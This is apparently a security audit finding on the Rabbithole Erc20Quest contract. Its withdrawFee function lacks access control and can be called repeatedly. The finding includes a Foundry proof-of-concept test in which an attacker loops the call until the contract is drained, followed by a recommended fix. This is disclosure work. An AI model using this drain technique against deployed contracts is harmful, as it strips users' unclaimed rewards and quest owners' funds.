 # Protocol fees can be withdrawn multiple times in `Erc20Quest`

The `withdrawFee` function present in the `Erc20Quest` contract can be used to withdraw protocol fees after a quest has ended, which are sent to the protocol fee recipient address:

https://github.com/rabbitholegg/quest-protocol/blob/8c4c1f71221570b14a0479c216583342bd652d8d/contracts/Erc20Quest.sol#L102-L104

```solidity
function withdrawFee() public onlyAdminWithdrawAfterEnd {
    IERC20(rewardToken).safeTransfer(protocolFeeRecipient, protocolFee());
}
```

This function doesn't provide any kind of protection and can be called multiple times, which will send more tokens than intended to the protocol fee recipient, stealing funds from the contract.

## Impact

The `withdrawFee` function can be called multiples after a quest has ended, potentially stealing funds from other people. The contract may have funds from unclaimed receipts (i.e. users that have completed the quest, redeemed their receipt but haven't claimed their rewards yet) and remaining tokens from participants who didn't complete the quest, which can be claimed back by the owner of the quest.

Note also that the `onlyAdminWithdrawAfterEnd` modifier, even though it indicates that an "admin" should be allowed to call this function, only validates the quest end time and fails to provide any kind of access control:

https://github.com/rabbitholegg/quest-protocol/blob/8c4c1f71221570b14a0479c216583342bd652d8d/contracts/Quest.sol#L76-L79

```solidity
modifier onlyAdminWithdrawAfterEnd() {
    if (block.timestamp < endTime) revert NoWithdrawDuringClaim();
    _;
}
```

This means that anyone could call this function, so even if the quest owner or the protocol fee recipient behave correctly, a griefer could potentially call this function right after the quest end time to remove all (or most) of the funds from the contract.

## PoC

In the following demonstration, the `withdrawFee` function is called multiple times by a bad actor to remove all tokens from the quest contract.

```solidity
contract AuditTest is Test {
    address deployer;
    uint256 signerPrivateKey;
    address signer;
    address royaltyRecipient;
    address minter;
    address protocolFeeRecipient;

    QuestFactory factory;
    ReceiptRenderer receiptRenderer;
    RabbitHoleReceipt receipt;
    TicketRenderer ticketRenderer;
    RabbitHoleTickets tickets;
    ERC20 token;

    function setUp() public {
        deployer = makeAddr("deployer");
        signerPrivateKey = 0x123;
        signer = vm.addr(signerPrivateKey);
        vm.label(signer, "signer");
        royaltyRecipient = makeAddr("royaltyRecipient");
        minter = makeAddr("minter");
        protocolFeeRecipient = makeAddr("protocolFeeRecipient");

        vm.startPrank(deployer);

        // Receipt
        receiptRenderer = new ReceiptRenderer();
        RabbitHoleReceipt receiptImpl = new RabbitHoleReceipt();
        receipt = RabbitHoleReceipt(
            address(new ERC1967Proxy(address(receiptImpl), ""))
        );
        receipt.initialize(
            address(receiptRenderer),
            royaltyRecipient,
            minter,
            0
        );

        // factory
        QuestFactory factoryImpl = new QuestFactory();
        factory = QuestFactory(
            address(new ERC1967Proxy(address(factoryImpl), ""))
        );
        factory.initialize(signer, address(receipt), protocolFeeRecipient);
        receipt.setMinterAddress(address(factory));

        // tickets
        ticketRenderer = new TicketRenderer();
        RabbitHoleTickets ticketsImpl = new RabbitHoleTickets();
        tickets = RabbitHoleTickets(
            address(new ERC1967Proxy(address(ticketsImpl), ""))
        );
        tickets.initialize(
            address(ticketRenderer),
            royaltyRecipient,
            minter,
            0
        );

        // ERC20 token
        token = new ERC20("Mock ERC20", "MERC20");
        factory.setRewardAllowlistAddress(address(token), true);

        vm.stopPrank();
    }

    function signReceipt(address account, string memory questId)
        internal
        view
        returns (bytes32 hash, bytes memory signature)
    {
        hash = keccak256(abi.encodePacked(account, questId));
        bytes32 message = ECDSA.toEthSignedMessageHash(hash);
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(signerPrivateKey, message);
        signature = abi.encodePacked(r, s, v);
    }

    function claimReceipt(address account, string memory questId) internal {
        (bytes32 hash, bytes memory signature) = signReceipt(account, questId);
        vm.prank(account);
        factory.mintReceipt(questId, hash, signature);
    }
    
    function test_Erc20Quest_ProtocolFeeWithdrawMultipleTimes() public {
        address alice = makeAddr("alice");
        address attacker = makeAddr("attacker");

        uint256 startTime = block.timestamp + 1 hours;
        uint256 endTime = startTime + 1 hours;
        uint256 totalParticipants = 1;
        uint256 rewardAmountOrTokenId = 1 ether;
        string memory questId = "a quest";

        // create, fund and start quest
        vm.startPrank(deployer);

        Erc20Quest quest = Erc20Quest(
            factory.createQuest(
                address(token),
                endTime,
                startTime,
                totalParticipants,
                rewardAmountOrTokenId,
                "erc20",
                questId
            )
        );

        uint256 rewards = totalParticipants * rewardAmountOrTokenId;
        uint256 fees = (rewards * factory.questFee()) / 10_000;
        deal(address(token), address(quest), rewards + fees);
        quest.start();

        vm.stopPrank();

        // simulate at least one user claims a receipt
        claimReceipt(alice, questId);

        // simulate time elapses until the end of the quest
        vm.warp(endTime);

        // The following can be executed by attacker (griefer) or by the fee recipient
        vm.startPrank(attacker);

        uint256 protocolFee = quest.protocolFee();
        uint256 withdrawCalls = (rewards + fees) / protocolFee;

        for (uint256 i = 0; i < withdrawCalls; i++) {
            quest.withdrawFee();
        }

        // Fee recipient has 100% of the funds
        assertEq(token.balanceOf(protocolFeeRecipient), rewards + fees);
        assertEq(token.balanceOf(address(quest)), 0);

        vm.stopPrank();
    }
}
```

## Recommendation

Add a flag to the contract to indicate if protocol fees have been already withdrawn. Add a check to prevent the function from being called again.
